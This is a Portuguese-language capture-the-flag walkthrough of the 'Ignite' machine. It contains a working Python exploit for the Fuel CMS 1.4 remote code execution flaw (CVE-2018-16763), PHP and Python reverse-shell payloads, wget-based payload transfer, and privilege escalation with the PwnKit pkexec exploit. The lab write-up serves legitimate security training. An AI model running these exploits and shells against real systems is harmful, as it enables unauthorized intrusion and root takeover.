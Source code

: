 # _**Ignite CTF**_
![](fire.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos uma página web com _Fuel CMS_  
Vamos realizar um scan com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-content/common.txt
> ```
![](scan_gobuster.jpg)

Nosso primeiro passo é investigar a própria página web antes de irmos para os diretórios  
E já de cara encontramos informações importantes a se verificar  
Usuário e senha de _administrador_ padrão e versão do CMS: 1.4  

![](fuel_default.jpg)

Conseguimos realizar login com sucesso!  

![](login_success.jpg)

Vamos por enquanto deixar de lado e ir verificando os outros diretórios descobertos  
Parece que não temos nada tão relevante a primeira vista  
Voltando para a página de _administrador_  temos a seguinte parte  

![](dashboard.jpg)

Parece que podemos realizar upload de arquivos  
Primeiro, tentamos um script com PHP, mas sem sucesso  
Não é permitido a inclusão deste tipo de arquivo  
Tentamos modificar o tipo para similares como _.php5_, _.phtml_ e até _.php.jpg_, mas sem sucesso  

Por se tratar de um CMS, e sabendo sua versão, buscou-se uma vulnerabilidade no Google  
Encontramos a [CVE:2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763) e com [exploit ativo](https://www.exploit-db.com/exploits/47138)  
Após o download do _script_ e a tentativa de execução, notou-se alguns erros. Este código é para python2 e está desatualizado  
Realizando a correção, temos:
> ```bash
> import requests
> import urllib.parse
> 
> url = "http://[ip_address]:[port]"  # Altere para seu alvo
> 
> def find_nth_overlapping(haystack, needle, n):
>     start = haystack.find(needle)
>     while start >= 0 and n > 1:
>         start = haystack.find(needle, start + 1)
>         n -= 1
>     return start
> 
> while True:
>     cmd = input("cmd: ")
>     payload = "'+pi(print($a='system'))+$a('" + cmd + "')+'"
>     encoded_payload = urllib.parse.quote(payload)
>     target = f"{url}/fuel/pages/select/?filter={encoded_payload}"
>     
>     # Remova proxy se não estiver usando Burp
>     proxies = {"http": "http://127.0.0.1:8080"}  # Comente esta linha se não usar proxy
>     try:
>         r = requests.get(target, proxies=proxies)  # Use `proxies=None` se não usar proxy
>     except requests.exceptions.RequestException as e:
>         print(f"[!] Erro na requisição: {e}")
>         continue
> 
>     html = "<!DOCTYPE html>"
>     htmlcharset = r.text.find(html)
>     begin = r.text[0:20]
>     dup = find_nth_overlapping(r.text, begin, 2)
> 
>     print(r.text[0:dup])
> ```
![](script_work.jpg)

Conseguimos retornar o ```id``` da máquina  
Podemos tentar obter um _shell reverso_  
Primeiro, verificamos se existe alguma versão do _Python_ no computador com ```python3 --version```  
Existe!  
Configuramos novamente o nosso código para podermos tentar obter um _shell reverso_  

> ```bash
> import requests
> import urllib.parse
> 
> # === CONFIGURAÇÕES ===
> target_url = "http://[ip_address]:[port]"  # Alvo
> lhost = "[vpn_ip_address]"              # Seu IP para receber a conexão reversa
> lport = "[port]"                       # Sua porta de escuta (nc)
> 
> # === PAYLOAD PHP reverse shell ===
> php_payload = f"""php -r '$sock=fsockopen("{lhost}",{lport});exec("/bin/sh -i <&3 >&3 2>&3");'"""
> 
> # Codifica e monta o exploit
> injection = f"' + pi(print($a='system')) + $a('{php_payload}') + '"
> encoded = urllib.parse.quote(injection)
> exploit_url = f"{target_url}/fuel/pages/select/?filter={encoded}"
> 
> # Opcional: configurar proxy (ex: Burp)
> proxies = {
>     "http": "http://127.0.0.1:8080",  # comente essa linha se não usar Burp
> }
> 
> # === DISPARO DO EXPLOIT ===
> print("[*] Enviando payload para executar reverse shell...")
> try:
>     r = requests.get(exploit_url, proxies=proxies)  # use proxies=None se não quiser proxy
>     print("[+] Payload enviado. Aguardando conexão em:", lhost, lport)
> except requests.exceptions.RequestException as e:
>     print("[-] Erro ao enviar payload:", e)
> ```

O _payload_ feito em PHP não funcionou  
Tentamos mais algumas vezes, alterando para _bash_, mas nada  
Foi então que surgiu a ideia de verificar se podiamos realizar upload de arquivo após a execução do primeiro _script_  
Um arquivo _teste.py_ com ```hello world``` foi criado e a partir da máquina-alvo, ```wget``` usado  

![](wget_python.jpg)  

![](hello_python.jpg)  

![](python_success.jpg)  

Sucesso!  
Temos execução de _scripts_ em python na máquina-alvo  
Vamos tentar agora obter um _reverse shell_  

Primeiro, criamos o _script_  
> ```bash
> import socket
> import subprocess
> import os
> 
> attacker_ip = "[ip_address]"
> attacker_port = [port]
> 
> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
> s.connect((attacker_ip, attacker_port))
> 
> os.dup2(s.fileno(), 0)
> os.dup2(s.fileno(), 1)
> os.dup2(s.fileno(), 2)
>
> subprocess.call(["/bin/sh", "-i"])
> ```

Em seguida, criamos um servidor http para conseguirmos enviar o arquivo
> ```bash
> python3 -m http.server [port]
> ```

Na máquina-alvo, usamos ```wget``` para conseguirmos o arquivo  
Damos permissão de execução  
E obtemos uma _shell reversa_  

![](reverse_shell.jpg)

# _**Escalando privilégios**_
Para podermos escalar priviégios dentro de www-data, vamos investigar o sistema  
Primeiro, executamos o comando ```find```  
> ```bash
> find / -perm -4000 -type f 2>/dev/null
> ```
![](find.jpg)

Investigando o retorno, temos um arquivo que chama a atenção: pkexec  
Verificando sua versão, _.105_, sabemos que é vulnerável e podemos ganhar acesso _root_ a partir daí  
<mark>Em nossa máquina</mark>
> ```bash
> curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
> ```
> ```bash
> python3 -m http.server 80
> ```

<mark>Na máquina-alvo</mark>
> ```bash
> wget http://[ip_address]/PwnKit
> ```
> ```bash
> chmod +x PwnKit
> ```
> ```bash
> ./PwnKit
> ```

![](root.jpg)

Basta buscar amba as flags!
